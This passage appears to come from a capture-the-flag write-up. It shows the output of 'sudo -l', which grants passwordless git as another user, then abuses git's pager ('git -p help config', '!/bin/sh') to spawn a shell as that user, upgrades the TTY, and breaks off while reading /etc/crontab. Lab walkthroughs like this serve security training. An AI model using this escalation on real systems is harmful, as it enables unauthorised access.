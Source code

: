 lets look into d4rckh  
get the user flag  


```
$ sudo -l
Matching Defaults entries for thirtytwo on ubuntu-xenial:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User thirtytwo may run the following commands on ubuntu-xenial:
    (d4rckh) NOPASSWD: /usr/bin/git
```

 now we have to check for git priv esc   

> **sudo -u d4rckh git -p help config**
> **!/bin/sh**  

we can upgrade our shell now 


```

ctrl +z  
echo $TERM  
export TERM=xterm-256color  
export SHELL=/bin/bash  
stty size  
stty raw -echo;fg

reset  

stty rows <no of rows> columns <no of columns >  

now we have a fully interactive shell  

now look into the crontab  

```
d4rckh@ubuntu-xenial:/home/d4rckh$ cat /etc/crontab
# /etc/crontab: system-wide crontab
# Unlike any other crontab you don't have to run the `crontab'
# command to install the new version when you edit this file
# and files in /etc/cron.d. These files also have username fields,
# that none of the other crontabs do.
